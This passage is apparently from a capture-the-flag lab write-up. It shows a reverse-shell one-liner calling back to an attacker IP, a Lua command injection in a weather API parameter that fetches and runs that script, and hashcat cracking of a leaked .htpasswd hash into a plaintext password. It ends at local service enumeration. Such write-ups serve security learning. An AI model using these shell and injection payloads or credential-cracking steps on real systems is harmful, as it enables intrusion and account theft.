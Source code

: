 Creating a shell script _(shell.sh)_:
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 9001 >/tmp/f
```

Downloading and executing _shell.sh_:
```
GET /weather/forecast?city=');os.execute("curl+10.10.14.6:8000/shell.sh+|+sh")--
```

After sending the request, the file gets executed and the listener on my IP and port 9001 starts a reverse shell as the user _httpd_.

## Privilege Escalation

In the directory _/var/www_ is a hidden _.htpasswd_ file with credentials:
```
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```

The password is hashed with **md5crypt**, so lets try to crack it with **Hashcat**:
```
hashcat -m 500 webapi_user.hash /usr/share/wordlists/rockyou.txt --user
```

After a while it will crack the hash:
> iamthebest

These credentials work on the service on HTTP port 80, which asks for authorization but then forwards to examples of the API that we already exploited:

![Weather Forecast API](luanne_web-3.png)

Checking the open ports:
```
netstat -an | grep LIST

127.0.0.1.3000
127.0.0.1.3001
```

Port 3000 is known to us, but port 3001 is running another service:
```
ps -auxw | grep 3001

r.michaels   185  0.0  0.0  34992  1960 ?     Is   12:01PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home
```
